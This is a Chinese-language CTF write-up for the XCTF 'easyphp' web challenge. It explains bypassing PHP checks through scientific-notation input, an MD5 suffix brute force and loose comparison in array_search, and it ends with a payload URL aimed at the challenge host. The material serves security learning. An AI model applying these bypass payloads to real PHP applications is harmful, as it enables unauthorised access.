 ```yaml
---
title: xctf web easyphp的题解
categories: WebSec
tags: 
- XCTF
---
```


php源码的分析

# Step 1
常规三件套
1. source code
2. dirsearch
3. bp sniffer

# php代码分析

```php

<?php
highlight_file(__FILE__);
$key1 = 0;
$key2 = 0;

$a = $_GET['a'];
$b = $_GET['b'];

if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3){
    // a需要满足大于6000000，且a的长度小于3，直接使用科学计数法，传入a=9e9(9e9=9*10^9)
    if(isset($b) && '8b184b' === substr(md5($b),-6,6)){
        // 截取后6位 md5碰撞看后文
        // a=9e9
        // b=60cca3b3b32c6b43197e48375b8b184b
        $key1 = 1;
        }else{
            die("Emmm...再想想");
        }
    }else{
    die("Emmm...");
}

$c=(array)json_decode(@$_GET['c']); # 传入一个json字符串
if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022){
    if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0])){
        $d = array_search("DGGJ", $c["n"]);
        // 字符串与int匹配是会将字符串int化
        $d === false?die("no..."):NULL;
        foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
            // die =break
        }
        $key2 = 1;  
        // 既要有DGGJ 又要没有，绕过一个函数
        // 
        // c={"m":"2023aa","n":[[1],0]}

    }else{
        die("no hack");
    }
}else{
    die("no");
}

if($key1 && $key2){
    include "Hgfks.php";
    echo "You're right"."\n";
    echo $flag;
}

?>

```
# 基本思路
传入的值符合条件能够执行`hgfks.php`就能获取`flag`
就是找到能定义key的传入的值
![imag](https://picdl.sunbangyan.cn/2023/10/29/ab41ea876e0bbf95e6eadb5348310d3c.png)

# 碰撞md5
以下是关于 Python 中 hashlib 库使用 MD5 算法的简单教程：

1. 导入 hashlib 模块：

```python
import hashlib
```

2. 创建 hashlib 对象：

```python
hash_object = hashlib.md5()
```

3. 更新哈希对象的输入值：

```python
hash_object.update(b"Hello World")
```

这里的 `b"Hello World"` 是要进行哈希运算的原始输入。注意，字符串需要以字节表示形式传递给 `update` 方法。

4. 获取哈希摘要：

```python
digest = hash_object.hexdigest()
print(digest)
```

`hexdigest()` 方法返回哈希对象的摘要，并以字符串形式表示。在上述示例中，我们将其打印到控制台。

完整的示例代码如下：

```python
import hashlib

hash_object = hashlib.md5()
hash_object.update(b"Hello World")
digest = hash_object.hexdigest()
print(digest)
```

运行以上代码，将会输出类似于 `b10a8db164e0754105b7a99be72e3fe5` 的哈希摘要。

简单的脚本
```python
import  random
import  hashlib
import sys
def xctf():
    value="8b184b"
    while 1:
        plain=random.randint(10**11,10**12-1)
        plain=str(plain)
        Md5=hashlib.md5()
        Md5.update(plain.encode(encoding="utf-8")) #编码后是字节
        cipher=Md5.hexdigest()
        if  cipher[-6:]==value:
            print("cipher",cipher)
            print('plain',plain)
            break   
sdtout:
cipher 60cca3b3b32c6b43197e48375b8b184b
plain 667791940608
```

#  综上所述

> **PlayLoad**

`http://61.147.171.105:61657/?a=9e9&b=667791940608&c={"m":"2023aa","n":[[1],0]}`
